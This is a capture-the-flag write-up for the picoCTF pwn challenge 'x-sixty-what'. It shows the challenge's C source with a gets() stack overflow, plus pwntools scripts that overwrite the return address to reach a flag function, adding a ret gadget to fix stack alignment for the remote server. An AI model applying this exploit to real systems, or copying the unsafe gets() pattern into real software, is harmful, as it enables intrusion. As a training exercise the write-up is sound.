


# x-sixty-what [Pwn]

Link : [x-sixty-what](https://play.picoctf.org/practice/challenge/319?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```


Overflow x64 code

```python
from pwn import *
sh = process("./vuln")
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x00401236)) # flag() adresse: 0x00401236  
sh.interactive()
```

It worked locally but not on the remote server.

This is a Movaps stack alignment issue.

> [!NOTE]  
>##### Movaps stack alignment
>
>If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system() [Read more...](https://ropemporium.com/guide.html)
>
>The solution is to call the ret of an other function one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.

To find it: ```objdump vuln -M intel --disassemble=_init```



```python
from pwn import *
sh = remote("saturn.picoctf.net",58049)
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x0040101a) + p64(0x00401236))
sh.interactive()
```


